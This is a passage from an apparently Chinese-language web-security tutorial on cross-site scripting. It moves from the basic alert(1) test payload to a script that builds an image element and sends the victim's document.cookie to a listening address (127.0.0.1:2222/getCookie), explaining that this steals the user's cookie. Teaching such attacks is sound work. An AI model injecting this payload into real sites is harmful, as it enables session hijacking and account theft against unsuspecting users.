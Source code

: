<p><img src="assets/c30c4cd28efc4d68aa0337b43eb5e50b.jpg" alt="图片" /></p>

<p>在上一讲的实战部分中，我们成功的对这个页面进行了XSS注入攻击，其中使用的payload为：</p>

<pre><code class="language-javascript">&lt;script&gt;alert(1)&lt;/script&gt;
</code></pre>

<p>在之前的学习中，我们知道它可以让页面弹出一个警告框，但如果我们将这个payload改为如下：</p>

<pre><code class="language-javascript">&lt;script&gt;var pic=document.createElement(&quot;img&quot;);pic.src=&quot;http://127.0.0.1:2222/getCookie?&quot;+escape(document.cookie)&lt;/script&gt;
</code></pre>

<p>这个payload会调用JavaScript创建一个Element对象，之后将这个对象的src设置为我们监听的地址端口，向这个地址用GET方式上传参数document.cookie，这样我们就能窃取到用户的cookie啦。</p>

<p><img src="assets/cd6083eba95d4e57999f383b5bc317f0.jpg" alt="图片" /></p>
